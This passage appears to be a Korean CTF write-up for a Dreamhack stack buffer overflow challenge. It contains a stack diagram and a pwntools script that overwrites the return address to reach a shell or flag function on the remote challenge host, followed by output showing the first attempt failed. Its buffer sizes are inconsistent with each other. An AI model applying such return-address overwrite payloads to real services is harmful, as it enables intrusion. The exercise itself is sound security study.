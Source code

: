```
|      ...      |     (Stack Pointer: 스택 포인터)
+---------------+
|      ret      | <-- read함수 호출 후 반환될 주소
|    8 byte     |     (Return addr)
+---------------+
|      sfp      | <-- 이전 rbp의 값을 가짐
|    8 byte     |     (Saved rbp: 이전 베이스 포인터)
+---------------+
|      buf      | <-- read함수가 읽는 buf 크기
|    46 byte    | 
+---------------+ <-- 시작 주소 [rbp - 0x20]
낮은 메모리 주소
```

`0x0000000000000aa7 <+102>: cmp    QWORD PTR [rbp-0x8],0x0`: `[rbp-0x8]`메모리 주소의 값과 0을 비교하여 `zf`를 설정
`0x0000000000000aac <+107>: je     0xab8 <main+119>`: `zf`가 1이면 점프


### 2.3. 공유 라이브러리 분석




## 3. 문제 풀이 코드

### Stack BOF를 주요로 이용한 코드

- 코드 수정 전
    ```
    from pwn import *

    # buf + sfp + get_shell()
    payload = b'\x90'*152 + b'\x90'*4 + b'\x69\x86\x04\x08' 

    r = remote('host3.dreamhack.games', 18968)

    r.send(payload)

    r.interactive()
    ```
    `\x90*152`: 버퍼에 아무 문자로 다 채움

    `\x90*4`: sfp에 아무 문자로 다 채움

    *32bit 환경에서는 sfp가 4byte의 크기*

    *64bit 환경에서는 sfp가 8byte의 크기*

    `\x69\x86\x04\x08`: `ret`에 들어갈 `read_flag`함수의 주소를 리틀엔디안 방식으로 입력

    - 코드 수정 전 실행 이후
        ```
        ECHO : ��������������������������������������������������������������������������������������������������������������������������������
        ```
        쉘이 실행되지 않음
